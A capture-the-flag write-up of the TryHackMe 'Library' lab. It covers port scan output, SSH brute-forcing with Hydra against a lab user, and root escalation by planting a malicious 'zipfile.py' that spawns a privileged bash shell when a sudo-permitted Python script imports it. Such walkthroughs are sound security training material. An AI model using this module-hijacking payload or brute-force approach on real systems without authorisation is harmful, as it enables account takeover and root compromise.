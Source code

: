 -------------------

### CTF-: TRYHACKME
### Lab-: Library

-------------------

![image](https://github.com/user-attachments/assets/46a2c6c6-e25d-4e2e-ae07-32033853d713)

------------------

### Enumeration

- Rustscan's output
      
      ❯ rustscan -a 10.10.162.244 -- -Pn -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.162.244:22
      Open 10.10.162.244:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 16:52 WAT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.00s elapsed
      Initiating Parallel DNS resolution of 1 host. at 16:52
      Completed Parallel DNS resolution of 1 host. at 16:52, 0.07s elapsed
      DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 16:52
      Scanning 10.10.162.244 [2 ports]
      Discovered open port 80/tcp on 10.10.162.244
      Discovered open port 22/tcp on 10.10.162.244
      Completed Connect Scan at 16:52, 0.19s elapsed (2 total ports)
      Initiating Service scan at 16:52
      Scanning 2 services on 10.10.162.244
      Completed Service scan at 16:52, 6.47s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.162.244.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 6.94s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.84s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.01s elapsed
      Nmap scan report for 10.10.162.244
      Host is up, received user-set (0.19s latency).
      Scanned at 2024-11-01 16:52:24 WAT for 15s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/X/Zd2/Rc7PrxR+K9bGX9i7Imk3JlU274UsMqM6X03THehc6XUvg0URMryl9IldYLjQvD0fadIg1jB8rCxqzRiJi35nw7ICUXnpZryDS/guLb94Sb9IrLWBTNNdUWV7bTb4gMaGHdyQAmKY62FgL2aKUFMn8SpxJu0WiVIQgcKkv15s17rNqVD39kG8x/bfdftcjn/YtEP09Sy4z1FqXF9FT1xWKaVr3Pd5rCAU4rpOzVpS+qTj77NWaXNDlcg3aCRaILD+4lquq8kVAA+VcXR9IwXOTKJRzRCMfYwd3M6QC45LlRa17xvhI++vBtCcGwxuD9JZsXu0Cd/5fdisrl
      |   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI8Oi4FyiWylek0a1n1TD1/TBOi2uXVPfqoSo1C56D1rJlv4g2g6SDJjW29bhodoVO6W8VdWNQGiyJ5QW2XirHI=
      |   256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOPQQrT4KT/PF+8i33LGgs0c83MQL1m863niSGsBDfCN
      80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      | http-methods: 
      |_  Supported Methods: POST OPTIONS GET HEAD
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      | http-robots.txt: 1 disallowed entry

- I checked the `robots.txt` file and got an hint of using `rcokyou` to bruteforce.

![image](https://github.com/user-attachments/assets/7c81ddbb-d02a-434c-8e35-e8105f711884)

- I checked the index page and discovered a possible user `meliodas`.

![image](https://github.com/user-attachments/assets/4cc86528-8f25-48c7-88be-dcc70f983247)

- Then, I tried to brutforce the `ssh` service with `Hydra` which worked.

![image](https://github.com/user-attachments/assets/b80f143c-98b5-48af-a839-89d862ef5490)

- Ssh access as user `Meliodas`

![image](https://github.com/user-attachments/assets/9c73b421-e4a0-4659-b1ad-02089052ef5a)

-----------------------

### Privesc with Python Library

- I ran `sudo -l` and discovered that user `meliodas` can execute a python script as root which is present in his directory.

![image](https://github.com/user-attachments/assets/31e424da-f001-40bd-9015-b2ad244e9771)

- I checked the source code and noticed that the script imports 2 modules `os` and `zipfile`.We don't need to read the code further,we've gotten a sink.Python checks the current directory for
a module before it checks `/usr/lib` directory for python scripts.We can abuse one of the modules by creating a malicious script in the current working directory.A module `zipfile` will have
script `zipfile.py`.

```python3
#!/usr/bin/env python
import os
import zipfile
```

- I created a `zipfile.py` in the directory and added this piece of code below.

```python3
import os
os.setuid(0);os.setgid(0);os.system("bash -p")
```

- I ran the `sudoers rule ` command again to gain root

![image](https://github.com/user-attachments/assets/4e4ccf64-b176-480f-a8a1-13e12c19ad31)

- Root!!!!








